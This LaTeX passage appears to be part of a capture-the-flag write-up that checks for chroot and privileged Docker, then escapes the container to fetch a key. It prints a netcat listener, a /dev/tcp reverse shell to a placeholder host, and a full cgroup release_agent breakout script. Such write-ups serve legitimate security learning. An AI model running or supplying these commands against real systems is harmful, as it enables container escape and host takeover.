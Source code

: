 \documentclass[../main.tex]{subfiles}
\begin{document}
\subsubsection{enumeration II}
To check if we escaped we can do \lstinline{ls /root} to see if the escape.c program we just made is in there. It's not, so it's not the same /root we were just in.
\lstinline{ls /} reveals the jail/ directory we just escaped from. key.txt is nowhere to be found. So we probably didn't completely escape. We can at least check if we're stuck in another chroot. This time, /proc does seem properly populated, so we can use this script:
\begin{lstlisting}[language=bash]
if [ "$(stat -c %d:%i /)" != "$(stat -c %d:%i /proc/1/root/.)" ]; then
  echo "We are chrooted!"
else
  echo "Business as usual"
fi
\end{lstlisting}
It seems we aren't chrooted. Next, we can check for docker with
\begin{lstlisting}
cat /proc/1/cgroups
\end{lstlisting}
This shows a lot of docker entries. It seems we're expected to escape docker. This \emph{is} possible if the docker runs in privileged mode. We can check this by doing something a normal docker container wouldn't be able to do, like creating a network interface.
\begin{lstlisting}[language=bash]
apt update -y
apt install iproute2 -y
ip link add dummy0 type dummy >/dev/null
if [[ $? -eq 0 ]]; then
    PRIVILEGED=true
    # clean the dummy0 link
    ip link delete dummy0 >/dev/null
else
    PRIVILEGED=false
fi
echo $PRIVILEGED
\end{lstlisting}
\subsubsection{privilege escalation II}
Now that we confirmed that our container is privileged, we can break out of it. 
First, we'll have to set up a reverse shell on our machine
\begin{lstlisting}
apt install -y netcat
nc –lvp 4444
\end{lstlisting}
Then we'll have to connect to our netcat with the host that is running our container with this command:
\begin{lstlisting}
bash -i >& /dev/tcp/LOCALIPHERE/4444 0>&1
\end{lstlisting}
We can execute this command through an exploit
The full details of this exploit can be found \href{https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1}{here}

\begin{lstlisting}[language=bash]
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/bash' > /cmd
## PUT REVERSE SHELL HERE
echo '/bin/bash -i >& /dev/tcp/LOCALIPHERE/4444 0>&1' >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
\end{lstlisting}
After this we should have a shell on our second terminal, and we can retrieve the key.
\end{document}
